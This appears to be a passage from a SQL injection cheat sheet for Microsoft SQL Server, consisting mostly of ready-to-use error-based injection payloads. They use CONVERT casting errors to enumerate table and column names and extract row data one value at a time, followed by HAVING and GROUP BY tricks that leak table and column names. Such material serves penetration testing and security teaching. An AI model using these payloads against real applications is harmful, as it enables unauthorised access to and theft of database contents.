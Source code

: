 ```sql
1 AND 1=CONVERT(INT,(SELECT top 1 TABLE_NAME FROM information_schema.TABLES))--
```

As this had extracted the first table’s name (table1 in the example below), we add that to the query to enumerate the next table, like so:

```sql
1 AND 1=CONVERT(INT,(SELECT top 1 TABLE_NAME FROM information_schema.TABLES WHERE TABLE_NAME NOT IN ('table1')))--
```

Further tables can then be enumerated by adding table names to the query. The following query would extract the third table name:

```sql
1 AND 1=CONVERT(INT,(SELECT top 1 TABLE_NAME FROM information_schema.TABLES WHERE TABLE_NAME NOT IN ('table1', 'table2')))--
```

Columns are then enumerated in the same manner as before (replace table1):

```sql
1 AND 1=CONVERT(INT,(SELECT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1'))--

1 AND 1=CONVERT(INT,(SELECT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1' AND column_name NOT IN ('column1')))--

1 AND 1=CONVERT(INT,(SELECT top 1 column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='table1' AND column_name NOT IN ('column1', 'column2')))--
```

Extract data (replace column1 and table1):

```sql
1 AND 1=CONVERT(INT,(SELECT top 1 column1 FROM table1))--

1 AND 1=CONVERT(INT,(SELECT top 1 column1 FROM table1 WHERE column1 NOT IN ('result1')))--

1 AND 1=CONVERT(INT,(SELECT top 1 column1 FROM table1 WHERE column1 NOT IN ('result1', 'result2')))--
```

HAVING and GROUP BY

Some basic enumeration of the current database can be performed by forcing errors through the use of[HAVING](http://www.w3schools.com/sql/sql_having.asp) and [GROUP BY](http://www.w3schools.com/sql/sql_groupby.asp).

```sql
1 HAVING 1=1--
```

Will reveal the current table and the first column name in a table_name.column_name format.

The second column name can be enumerated with:

```sql
1 GROUP BY table1.column1 HAVING 1=1--
```
